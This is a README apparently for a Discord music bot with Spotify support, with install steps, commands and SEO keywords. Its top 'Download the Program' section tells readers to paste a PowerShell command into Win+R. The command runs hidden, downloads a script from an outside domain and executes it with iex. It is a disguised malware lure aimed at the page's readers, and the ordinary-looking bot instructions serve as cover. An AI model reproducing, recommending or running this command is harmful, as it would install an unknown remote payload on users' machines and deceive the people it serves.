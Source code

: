 # Discord Music Bot Spotify 🎶🎤
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Project Description
**Discord Music Bot** is a powerful music bot for Discord that allows users to play music from Spotify and other sources directly in their voice channels. This bot supports various commands to manage music playback and offers a seamless listening experience.

## Key Features
- **Spotify Integration**: Play your favorite tracks directly from Spotify.
- **Multiple Source Support**: Supports music from YouTube, SoundCloud, and more.
- **Queue Management**: Users can add, remove, or skip songs in the playback queue.
- **User -Friendly Commands**: Simple commands for playing, pausing, and stopping music.
- **Voice Channel Support**: Automatically joins and leaves voice channels as needed.

## Installation 📦
To install the Discord Music Bot, follow these steps:

1. **Clone the repository**:
   ```bash
   git clone https://github.com/Discordmusic-bot/discord-music-bot.git
   ```

2. **Navigate to the project directory**:
   ```bash
   cd discord-music-bot
   ```

3. **Install dependencies**:
   ```bash
   npm install
   ```

4. **Set up environment variables**:
   Create a `.env` file and add your Discord bot token and Spotify credentials:
   ```plaintext
   DISCORD_TOKEN=your_discord_bot_token
   SPOTIFY_CLIENT_ID=your_spotify_client_id
   SPOTIFY_CLIENT_SECRET=your_spotify_client_secret
   ```

## Usage 🚀
Run the bot using the following command:
```bash
node index.js
```

## Example Commands 📜
- **!play [song name/URL]**: Plays the specified song.
- **!skip**: Skips the currently playing song.
- **!pause**: Pauses the music playback.
- **!resume**: Resumes the paused music.
- **!queue**: Displays the current playback queue.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Discord.js Documentation](https://discord.js.org/#/)
- [Spotify API Documentation](https://developer.spotify.com/documentation/web-api/)

---

**SEO Keywords**: Discord, Music Bot, Spotify, music playback, Discord bot, audio streaming, bot commands.
